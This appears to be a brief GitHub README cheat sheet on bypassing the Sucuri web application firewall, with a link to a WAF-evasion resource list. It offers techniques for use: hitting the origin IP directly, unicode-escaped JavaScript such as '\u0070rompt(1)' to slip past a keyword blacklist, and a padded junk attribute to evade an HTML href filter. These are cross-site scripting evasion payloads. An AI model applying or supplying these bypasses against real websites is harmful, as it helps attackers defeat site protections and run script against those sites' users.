 # WAF_bypass

## Securi WAF

1. If you can get the IP it will totally bypass the WAF!

2. print, confirm, alert are blacklisted. A workaround can be using unicode. 

  prompt
  ```js
  \u0070rompt(1)
  eval(\u0070rompt(1))
  ```

  href
  ```
  # Blocked
  <a href="hello">

  # Bypass 

  <a fooooooooooooooooooooooo href="hello">
  ```


## Help 

https://github.com/0xInfection/Awesome-WAF  

